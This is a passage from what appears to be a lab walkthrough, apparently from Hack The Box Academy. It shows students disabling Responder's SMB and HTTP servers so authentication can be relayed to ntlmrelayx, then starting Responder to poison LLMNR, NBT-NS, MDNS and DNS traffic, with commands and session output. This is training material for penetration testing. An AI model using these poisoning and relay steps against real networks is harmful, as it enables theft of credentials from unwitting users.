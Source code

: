 Utilizing the previously spawned target and SSH session, students need to change their working directory to `tools/Responder`:

Code: shell

```shell
cd tools/Responder
```

```shell-session
htb-student@ubuntu:~$ cd tools/Responder/
```

They will have to turn off the SMB Server and HTTP Server, usually started by `Responder`, by altering the line in the `Responder.conf` configuration file in the same directory. This is done to allow the relayed authentication to go to `ntlmrelayx`.

Code: shell

```shell
sed -i "s/SMB = On/SMB = Off/; s/HTTP = On/HTTP = Off/" Responder.conf
cat Responder.conf | grep -ie "SMB =\|HTTP ="
```

```shell-session
htb-student@ubuntu:~/tools/Responder$ sed -i "s/SMB = On/SMB = Off/; s/HTTP = On/HTTP = Off/" Responder.conf
htb-student@ubuntu:~/tools/Responder$ cat Responder.conf | grep -ie "SMB =\|HTTP ="
SMB = Off
HTTP = Off
```

Right after, students need to start `Responder` using `sudo` in "poisoning" mode by only specifying the `-I` parameter for the interface (`ens192`), configuring the tool to poison every broadcast request/traffic.

Code: shell

```shell
sudo python3 Responder.py -I ens192
```

```shell-session
htb-student@ubuntu:~/tools/Responder$ sudo python3 Responder.py -I ens192
<SNIP>

[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [OFF]

<SNIP>

[+] Generic Options:
    Responder NIC              [ens192]
    Responder IP               [172.16.117.30]
    Responder IPv6             [fe80::250:56ff:feb9:80f3]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP', 'ISATAP.LOCAL']

[+] Current Session Variables:
    Responder Machine Name     [WIN-6Y3FH7UTIW2]
    Responder Domain Name      [0RAB.LOCAL]
    Responder DCE-RPC Port     [45567]

[+] Listening for events...
```
